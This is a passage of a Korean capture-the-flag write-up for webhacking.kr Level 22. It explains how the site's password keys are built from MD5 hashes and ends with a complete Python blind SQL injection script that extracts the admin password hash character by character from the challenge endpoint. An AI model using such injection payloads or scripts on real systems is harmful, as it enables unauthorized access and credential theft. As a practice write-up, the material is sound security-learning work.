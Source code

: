 <img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 22/image-20180731215259261.png" width="500px">

예상대로 MD5였다. 복호화 문자는 '1234zombie' 였다. 즉, 비밀번호를 생성하면 비밀번호 뒤에 'zombie'를 붙이고 md5 해싱을 하여 key값으로 사용한다.

(지금 write-up쓰면서 생각해보니, '1234zombie' 라는 md5값이 서버에 있는게 신기방기😂)



이제 'admin'의 키 값만 구하면, pw를 구할 수 있을 것 같다.

그럼 'admin'의 키 값은 어떻게 구하지?



<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 22/image-20180731220217394.png" width="500px">



admin으로 회원가입하기 위해 우회도 해보고 다해봤지만 안되서 아이디 부분에 SQL Injection을 하다보니

위와 같은 에러가 나왔다. 쿼리가 깨진것 같았다.



<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 22/image-20180731220343620.png" width="200px">

그래서 주석을 '--' 대신 '#'을 사용 하였더니 위와 같이 출력되었다.

즉, username 부분은 SQL Injection을 성공한 한 것이다.



이제 비밀번호만 찾으면 되니 Blind Injection을 하면 될 것 같다.

```python
import urllib.request
import http.client
import re
import requests

if __name__=="__main__":

    pw =""
    md5 = [num for num in range(48,58)]+[num for num in range(97,104)]

    for i in range(1,33):
        for j in md5:
            data = {"uuid":"admin' and ord(substr(pw,"+str(i)+",1))="+str(j)+"#"}
            data = urllib.parse.urlencode(data)
            header = {"Content-type":"application/x-www-form-urlencoded","Accept": "text/plain","Cookie":"PHPSESSID=[세션 값]"}
            connection = http.client.HTTPConnection("webhacking.kr")
            connection.request("POST","/challenge/bonus/bonus-2/index.php",data,header)
            response = connection.getresponse()
            read = response.read()
            read =read.decode('utf-8')
            print("Parsing : "+chr(j))
            find = re.findall("Wrong password!",read)
            if find:
                pw += chr(j)
                print("[-] Find : "+pw)
                break
    print("[+] password : "+pw)
```
